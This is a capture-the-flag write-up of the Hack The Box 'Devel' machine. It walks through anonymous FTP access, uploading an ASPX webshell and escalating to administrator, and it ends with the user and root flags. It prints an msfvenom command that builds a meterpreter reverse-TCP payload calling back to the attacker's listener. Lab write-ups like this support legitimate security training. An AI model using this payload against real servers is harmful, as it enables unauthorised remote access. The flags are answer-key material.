## Devel
*Easy*

Used rustscan and found ports 21 and port 80 open.



Anonymous login through FTP is possible.



Brought all the necessary files to my machine.
Notice that the files we found in port scanning were same as those we found in FTP. So it might be a webroot on a windows machine.

Emeuneration using gobuster.





Eneumeration using gobuster was not of much use.

Opened the webpage.



I then opened /iisstart.aspx and /aliproject.aspx and through inspect element found that the server is running ASP.NET


So might have to upload a .aspx webshell via FTP and then open it in the browser to get the reverse shell.

So to make the payload I used msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```


Then I set up a meterpreter. I set up a local listener to this handler.



But I am not the administrator. So I need to become the admin. So looking for some system information



https://null-byte.wonderhowto.com/how-to/bypass-uac-escalate-privileges-windows-using-metasploit-0196076/ was helpful to understand privialge escalation.
https://titanwolf.org/Network/Articles/Article?AID=e8a8d6f5-38ff-419f-ac2b-4b43f646f43a#gsc.tab=0 also helped.

Tried privilage escalation but failed.



The above articles seemed to help. But no session was created. 


So after some more searching, I tried another exploit and this time it worked.





So finally, became the admin.





User flag **9ecdd6a3aedf24b41562fea70f4cb3e8**
Root flag **e621a0b5041708797c4fc4728bc72b4b**

